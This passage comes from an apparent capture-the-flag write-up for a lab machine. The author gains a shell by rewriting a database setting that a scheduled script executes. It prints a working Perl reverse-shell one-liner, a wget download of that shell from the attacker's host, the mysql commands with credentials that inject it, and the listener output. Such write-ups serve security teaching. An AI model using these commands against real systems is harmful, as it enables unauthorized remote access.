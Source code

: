 I thought about that `checkrelease` parameter in the `config` table I saw earlier. It currently contains `/home/guly/checkbase.pl;/home/guly/checkplugins.pl;` so I guessed that this may be a script running at specific interval. I have access to the database so I can change this value.

I used the standard perl reverse shell payload, then dropped it into `/var/lib/php/sessions` since it's the only directory in the main executable partition I have write access to:

```perl
use Socket;$i="10.10.14.23";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};
```

```
wget http://10.10.14.23:443/shell.pl -O /var/lib/php/sessions/shell.pl
--2019-04-14 22:25:39--  http://10.10.14.23:443/shell.pl
Connecting to 10.10.14.23:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 209 [text/x-perl]
Saving to: '/var/lib/php/sessions/shell.pl'
```

Then I updated the database configuration to point to the new script:

```
mysql -u nestedflanders -p1036913cf7d38d4ea4f79b050f171e9fbf3f5e -e "update config set option_value = '/usr/bin/perl /var/lib/php/sessions/shell.pl;' where id='86'" neddy
mysql -u nestedflanders -p1036913cf7d38d4ea4f79b050f171e9fbf3f5e -e "select * from config where id='86'" neddy
id	option_name	option_value
86	checkrelease	/usr/bin/perl /var/lib/php/sessions/shell.pl;
```

After a minute or two I got a connection back:

```
root@ragingunicorn:~/htb/unattended# nc -lvnp 80
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 10.10.10.126.
Ncat: Connection from 10.10.10.126:47400.
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1000(guly) gid=1000(guly) groups=1000(guly),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),47(grub),108(netdev)

$ cat user.txt
9b413f...
```

IPv6 is configured on this server, I will run an nmap scan against the IPv6 address to see if I can find any other open port.

```
$ ip a
2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 1000
    link/ether 00:50:56:b2:7b:c2 brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.126/24 brd 10.10.10.255 scope global ens33
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb2:7bc2/64 scope global mngtmpaddr dynamic
       valid_lft 86215sec preferred_lft 14215sec
    inet6 fe80::250:56ff:feb2:7bc2/64 scope link
       valid_lft forever preferred_lft forever
```
